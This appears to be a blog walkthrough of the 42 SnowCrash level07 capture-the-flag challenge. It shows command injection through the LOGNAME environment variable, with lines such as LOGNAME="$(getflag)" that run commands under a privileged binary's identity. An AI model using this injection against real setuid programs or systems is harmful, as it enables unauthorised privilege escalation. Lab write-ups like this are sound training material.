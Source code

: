 ```yaml
---
title: 42 SnowCrash Level07 - Walkthrough 👾
tags:
  - ctf
  - snowcrash
  - 42project
  - command-injection
categories:
  - ctfs
  - 42project
date: 2024-05-18 15:19:49
---
```


![snowcrash](/images/snowcrash.png)

## Introduction

In level 07, we exploit a binary file (`level07`) that prints the `LOGNAME` environment variable. By injecting commands into the `LOGNAME` variable, we execute arbitrary commands to obtain the flag.

### Steps:

1. **Exploring the Binary:**
   We execute the binary file `level07` to understand its behavior:

   ```sh
   level07@SnowCrash:~$ ./level07 
   level07
   ```
    The program simply prints the LOGNAME variable.

2. **Identifying Command Injection**:
    We discover that the program evaluates the LOGNAME variable, allowing for command injection. We export the LOGNAME variable with a command to execute:
    ```sh
    level07@SnowCrash:~$ LOGNAME="\$(id)"; ./level07 
    uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
    ```
    The command id is executed, revealing the user's identity.

3. **Exploiting Command Injection**:
    We exploit the command injection to execute the getflag command:
    ```sh
    level07@SnowCrash:~$ LOGNAME="\$(getflag)"; ./level07 
    Check flag. Here is your token : ***************************************
    ```
    The `getflag` command is executed, and we obtain the flag.

## Conclusion

By exploiting the command injection vulnerability in the level07 binary, we successfully executed arbitrary commands and obtained the flag for level 07.

